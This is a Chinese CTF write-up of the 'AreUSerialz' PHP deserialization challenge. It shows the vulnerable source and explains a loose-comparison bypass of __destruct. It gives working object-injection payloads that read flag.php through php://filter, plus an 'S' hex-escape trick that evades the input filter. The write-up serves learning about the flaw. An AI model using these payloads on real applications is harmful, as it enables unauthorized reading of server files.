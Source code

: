 # [网鼎杯 2020 青龙组]AreUSerialz
![](<./img/Pasted image 20221104081222.png>)

好一个一语双关
```php
<?php
include("flag.php");
highlight_file(__FILE__);
class FileHandler
{
	protected $op;
	protected $filename;
	protected $content;
	function __construct()
	{
		$op = "1";
		$filename = "/tmp/tmpfile";
		$content = "Hello World!";
		$this->process();
	}
	public function process()
	{
		if($this->op == "1")
		{
			$this->write();
		}
		else if($this->op == "2")
		{
			$res = $this->read();
			$this->output($res);
		}
		else
		{
			$this->output("Bad Hacker!");
		}
	}
	private function write()
	{
		if(isset($this->filename) && isset($this->content))
		{
			if(strlen((string)$this->content) > 100)
			{
				$this->output("Too long!");
				die();
			}
			$res = file_put_contents($this->filename,
									 $this->content);
			if($res)
			{
				$this->output("Successful!");
			}
			else 
			{
				$this->output("Failed!");
			}
		}
		else
		{
			$this->output("Failed!");
		}
	}
	private function read()
	{
		$res = "";
		if(isset($this->filename))
		{
			$res = file_get_contents($this->filename);
		}
		return $res;
	}
	private function output($s)
	{
		echo "[Result]: <br>";
		echo $s;
	}
	function __destruct()
	{
		if($this->op === "2")
		{
			$this->op = "1";
		}
		$this->content = "";
		$this->process();
	}
}

function is_valid($s)
{
	for($i = 0; $i < strlen($s); $i++)
	{
		if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
		{
			return false;
		}
	}
	return true;
}

if(isset($_GET{'str'}))
{
	$str = (string)$_GET['str'];
	if(is_valid($str))
	{
		$obj = unserialize($str);
	}
}
```
注意到
```php
function __destruct()
{
	if($this->op === "2")
	{
		$this->op = "1";
	}
	$this->content = "";
	$this->process();
}
```
`__destruct`方法中`$this->op`与`"2"`的比较是强类型比较

而
```php
public function process()
{
	if($this->op == "1")
	{
		$this->write();
	}
	else if($this->op == "2")
	{
		$res = $this->read();
		$this->output($res);
	}
	else
	{
		$this->output("Bad Hacker!");
	}
}
```
`process`方法中`$this->op`与`"1"`和`"2"`的比较是弱类型比较绕过

可利用这一点绕过`__deconstruct`的限制
```php
/?str=O:11:"FileHandler":3:{s:5:"%00*%00op";i:2;s:11:"%00*%00filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:10:"%00*%00content";s:3:"123";}
```
发现并没有反应，原来是`%00`被`is_valid`拦截了，搜索发现可通过将序列化文本中的`s`改为`S`来支持16进制转义
```php
/?str=O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";S:10:"\00*\00content";s:3:"123";}
```
![](<./img/Pasted image 20221104092901.png>)

![](<./img/Pasted image 20221104093055.png>)
